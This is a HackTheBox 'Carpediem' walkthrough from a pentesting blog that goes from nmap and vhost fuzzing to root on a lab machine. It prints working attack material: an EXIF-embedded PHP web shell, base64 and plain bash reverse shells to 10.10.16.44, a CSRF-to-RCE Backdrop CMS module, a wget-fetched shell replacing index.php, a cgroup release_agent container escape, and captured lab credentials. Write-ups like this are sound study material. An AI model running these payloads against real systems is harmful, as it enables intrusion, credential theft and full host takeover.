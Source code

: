 ```yaml
---
title: HTB | Carpediem
author: Zeropio
date: 2022-09-01
categories: [Pentesting, HackTheBox]
tags: [htb, linux, hard, machines]
permalink: /pentesting/htb/machines/carpediem
image:
  path: /assets/img/hackthebox/card/Carpediem.png
  width: 800
  height: 500
---
```


# Fingerprint

The nmap gives us:

```
Nmap scan report for 10.10.11.167
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:21:76:f7:2d:c5:f0:4e:e0:a8:df:b4:d9:5e:45:26 (RSA)
|   256 b1:6d:e3:fa:da:10:b9:7b:9e:57:53:5c:5b:b7:60:06 (ECDSA)
|_  256 6a:16:96:d8:05:29:d5:90:bf:6b:2a:09:32:dc:36:4f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Comming Soon
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can fuzz for vhosts:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://carpediem.htb/' -H 'Host: FUZZ.carpediem.htb' -fs 2875

	portal                  [Status: 200, Size: 31090, Words: 7687, Lines: 463, Duration: 101ms]
```

We have a login there and a register account option. Created and account and login as it.

# Foothold

In the mangament account part we can see an ID in the headers:

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled.png)

The **login_type=2**, if we changed it to 1 and forward the request we will be modifying the admin account. We have access now to the admin panel:

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled%201.png)

Moving through the page we can modify the account once again, this time adding a profile image. We can try uploading a reverse shell with the following content:

```console
zero@pio$ exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); ?>' dog.jpeg
```

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled%202.png)

Change the name in burp before sending, and now we have RCE:

![Untitled](/assets/img/hackthebox/labs/carpediem/Untitled%203.png)

We will use a url encoded of a base64 shell to execute a reverse shell:

```
echo%20%22L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQ0LzQ0MyAwPiYx%22%20%7C%20base64%20%2Dd%20%7C%20bash
```

We now get access to the system, but we noticed we are in a container.

```console
www-data@3c371615b7aa:/var/www/html/portal/uploads$ hostname
	3c371615b7aa
www-data@3c371615b7aa:/var/www/html/portal/uploads$ whoami
	www-data
```

# Privilege Escalation

We have access of a MongoDB from the container. With chisel we can make a connection:

```console
zero@pio$ chisel server --reverse --port 8000
```

```console
www-data@3c371615b7aa:/dev/shm$ ./chisel client 10.10.16.44:8000 R:8118:172.17.0.5:8118 R:27017:172.17.0.3:27017 &
```

We can see that is a **trudesk**. Use a [bcrypt password](https://icyberchef.com/#recipe=Bcrypt(10)&input=cGFzc3dvcmQ) and update the password. 

```console
zero@pio$ mongosh mongodb://127.0.0.1:27017

test> show databases
	admin     135 kB
	config    111 kB
	local    90.1 kB
	trudesk  1.12 MB
test> use trudesk
trudesk> db.accounts.update( {"_id": ObjectId("623c8b20855cc5001a8ba13c")}, {$set: {"password": "$2b$10$zX4LTPwe7bEjhvQ.lbNgNuttsUcvcstL6SHHhZhIXouFObHXxYqey"}});
```

We can login with the **admin:password** credentials. We see some tickets, from there we got the credentials **9560:2022**. They ask to call to **62**. After making the call in the web we can listen to the new credentials: **hflaccus:AuRj4pxq9qPk**. With SSH we can use them.

LinPEAS told us we can intercept traffic, so we start a `tcpdump`. 

```console
hflaccus@carpediem:~$ tcpdump -i any port 443 -w traffic_output
```

Get also the ssl key in `/etc/ssl/certs/backdrop.carpediem.htb.key`{: .filepath}. Checking the outpuf file in Wireshark we can find the following credentials: **jpardella**:**tGPN6AmJDZwYWdhY**.

Open a port forwading:

```console
zero@pio$ sshpass -p AuRj4pxq9qPk ssh hflaccus@10.10.11.167 -L 8002:127.0.0.1:8002
```

We can see a login in **https://127.0.0.1:8002**. We found a login, the previous credentials will work there.

It is using the **Backdrop CMS**, we found a vulnerability in this [Github](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS). Modify the script to make a reverse shell instead of a webshell:

```console
zero@pio$ tar -xf reference.tar
zero@pio$ cat reference/shell.php
	<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'");?>
zero@pio$ tar -cvf reference.tar reference &>/dev/null
```

Import the new “module” in the **Functionality** page, through a manual installation. Now open a netcat and call the module in `https://localhost:8002/modules/reference/shell.php`.

```console
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ whoami
	www-data
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ hostname -i
	172.17.0.2
```

We are in a new container. We found the following script:

```console
www-data@90c7f522b842:/opt$ cat heartbeat.sh
	#!/bin/bash
	#Run a site availability check every 10 seconds via cron
	checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
	if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
	        exit
	fi
	status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
	grep "Welcome to backdrop.carpediem.htb!" "$status"
	if [[ "$?" != 0 ]]; then
	        #something went wrong.  restoring from backup.
	        cp /root/index.php /var/www/html/backdrop/index.php
	fi
```

We can change the index.php in a reverse shell:

```console
zero@pio$ cat index.php          
	<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'");?>
zero@pio$ $ python3 -m http.server 80
```

Replace the file:

```console
ww-data@90c7f522b842:/var/www/html/backdrop$ rm -f index.php
www-data@90c7f522b842:/var/www/html/backdrop$ wget http://10.10.16.44/index.php
```

And we will get a root connection:

```console
root@90c7f522b842:/var/www/html/backdrop# whoami
	root
```

This [article](https://www.notion.so/Carpediem-691b061d8e164581b4ce5bf8b121fb3c) talk about how to escape from a privileged docker container. Create the following script and send it to the target:

```bash
mkdir /dev/shm/privesc
mount -t cgroup -o rdma cgroup /dev/shm/privesc
mkdir /dev/shm/privesc/x
echo 1 > /dev/shm/privesc/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /dev/shm/privesc/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.44/443 0>&1'" >> /cmd
chmod a+x /cmd
bash -c "echo \$\$ > /dev/shm/privesc/x/cgroup.procs"
```

Execute the script in the container with a netcat open:

```console
root@90c7f522b842:~# unshare -UrmC bash
wget http://10.10.16.44/script.sh
chmod +x script.sh
./script.sh
```

```console
	zero@pio$ nc -lvnp 443
	listening on [any] 443 ...
	connect to [10.10.16.44] from (UNKNOWN) [10.10.11.167] 59580

	root@carpediem:/# whoami
		root
```
